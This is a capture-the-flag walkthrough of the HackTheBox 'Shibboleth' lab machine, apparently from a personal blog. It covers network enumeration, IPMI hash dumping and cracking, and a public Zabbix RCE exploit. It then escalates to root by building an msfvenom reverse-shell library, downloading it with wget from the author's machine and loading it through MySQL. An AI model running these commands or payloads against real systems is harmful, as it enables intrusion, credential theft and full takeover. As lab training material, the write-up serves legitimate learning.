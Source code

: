 ```yaml
---
layout: post
title: CTF Shibboleth
date:   2022-03-12 17:29:02 -0600
categories: CTF
tags: Linux
---
```

# /etc/hosts
10.10.11.124 shibboleth.htb

# nmap
```sh
nmap -sV shibboleth.htb

PORT STATE SERVICE VERSION 
80/tcp open http Apache httpd 2.4.41
```
We only have an apache server.

# gobuster

```sh
gobuster dir -t 100 -u http://shibboleth.htb/ -w ~/Documents/wordlist/directory-list-medium.txt


/assets               (Status: 301) [Size: 317] [--> http://shibboleth.htb/assets/]
/forms                (Status: 301) [Size: 316] [--> http://shibboleth.htb/forms/] 
/server-status        (Status: 403) [Size: 279]                             
```

## http://shibboleth.htb/forms/
![](https://i.imgur.com/hwLrBG4.png)
In the Readme.txt we have this:
```sh
Fully working PHP/AJAX contact form script is available in the pro version of the template.
You can buy it from: https://bootstrapmade.com/flexstart-bootstrap-startup-template/
```
In the contact.php we have this:
```sh
Unable to load the "PHP Email Form" Library!
```

# Subdomain listing 
```sh
wfuzz -c -f sub-fighter -w Documents/wordlist/subdomains-top1million-5000.txt -u http://shibboleth.htb/ -H "Host: FUZZ.shibboleth.htb" --hw 26
```
The --hw mean I will exclude every resultats with word 26.
![](https://i.imgur.com/JjPUFhl.png)

We also have an hint in main page.
![](https://i.imgur.com/wwNadhq.png)

# gobuster
```sh
gobuster dir -t 100 -u http://zabbix.shibboleth.htb -w ~/Documents/wordlist/directory-list-medium.txt -k

/modules              (Status: 301) [Size: 332] [--> http://zabbix.shibboleth.htb/modules/]
/assets               (Status: 301) [Size: 331] [--> http://zabbix.shibboleth.htb/assets/] 
/audio                (Status: 301) [Size: 330] [--> http://zabbix.shibboleth.htb/audio/]  
/local                (Status: 301) [Size: 330] [--> http://zabbix.shibboleth.htb/local/]  
/app                  (Status: 301) [Size: 328] [--> http://zabbix.shibboleth.htb/app/]    
/js                   (Status: 301) [Size: 327] [--> http://zabbix.shibboleth.htb/js/]     
/include              (Status: 301) [Size: 332] [--> http://zabbix.shibboleth.htb/include/]
/conf                 (Status: 301) [Size: 329] [--> http://zabbix.shibboleth.htb/conf/]   
/vendor               (Status: 301) [Size: 331] [--> http://zabbix.shibboleth.htb/vendor/] 
/fonts                (Status: 301) [Size: 330] [--> http://zabbix.shibboleth.htb/fonts/]  
/locale               (Status: 301) [Size: 331] [--> http://zabbix.shibboleth.htb/locale/] 
/server-status        (Status: 403) [Size: 286]
```
It's forbiden everywhere.
I found nothing and all the new exploits of zabbix don't work. 
I have to continue the enumeration.

# nmap UDP
```sh
sudo nmap -sU nmap -sU --min-rate 5000 shibboleth.htb

PORT      STATE  SERVICE
518/udp   closed ntalk
623/udp   open   asf-rmcp
16919/udp closed unknown
16972/udp closed unknown
30975/udp closed unknown
42431/udp closed unknown
44253/udp closed unknown
```

The port 623 is open.

# Exploit IPMI (port 623)
```sh 
msfconsole
use auxiliary/scanner/ipmi/ipmi_dumphashes
set RHOSTS 10.10.11.124
run
...
[+] 10.10.11.124:623 - IPMI - Hash found: Administrator:5479a2ba820600003ad3a123b77e26a23ce881756019b75dec504d50007565022cf0fcdb1f86674ba123456789abcdefa123456789abcdef140d41646d696e6973747261746f72:2d636e7b85ec1c5ab81526480df9ff2e614f4379
```
# Crack the hash
I store the hash in the `hash` file.
I'm gonna use hashcat to crack it. 
```sh
hashcat -h |grep IPMI
```
Output
```sh
7300 | IPMI2 RAKP HMAC-SHA1                                | Network Protocol
```
So the command gonna be this one.
```sh
hashcat -m 7300 -a 0 hash /home/peanutstick/Documents/wordlist/rockyou.txt
```
![](https://i.imgur.com/tvZYZ5i.png)
I have a password.
# Zabbix
![](https://i.imgur.com/T4SLwub.png)
As we can see it's Zabbix 5.0.17.
I'm gonna use this exploit.
https://packetstormsecurity.com/files/166256/Zabbix-5.0.17-Remote-Code-Execution.html
```sh
python3 exploit.py http://zabbix.shibboleth.htb Administrator Thepassword 10.10.14.147 4648
```
I'm in.
![](https://i.imgur.com/NjeFyWU.png)


# Privilege escalation
```sh
ls /home
```
Output
```sh
ipmi-svc
```
So we have to connect with this user and the password we found in the hash.
```sh
su ipmi-svc
```
# Enum with shell
I have to upgrade the shell first.
```sh
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
Now let's se if there is come creds in clear text.
```sh
grep --color=auto -rnw '/etc' -ie "Password" --color=always 2> /dev/null
```
![](https://i.imgur.com/KsbCPG0.png)
![](https://i.imgur.com/yDEBpLw.png)

# Exploit mysql
## Create the payload
You have to use an another port.
```sh
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.147 LPORT=4649 -f elf-so -o exp.so
python2.7 -m SimpleHTTPServer 
```
Listen with netcat.
```sh
nc -nlvp 4649
```
## Upload the payload
On the server
```sh
mkdir /tmp/exp
cd /tmp/exp
wget http://10.10.14.147:8000/exp.so
```

## Execute the payload 
```sh
mysql -u zabbix -p
```
with mysql.
```mysql
SET GLOBAL wsrep_provider="/tmp/exp/exp.so"; 
```
![](https://i.imgur.com/RsOO332.png)
I'm root.


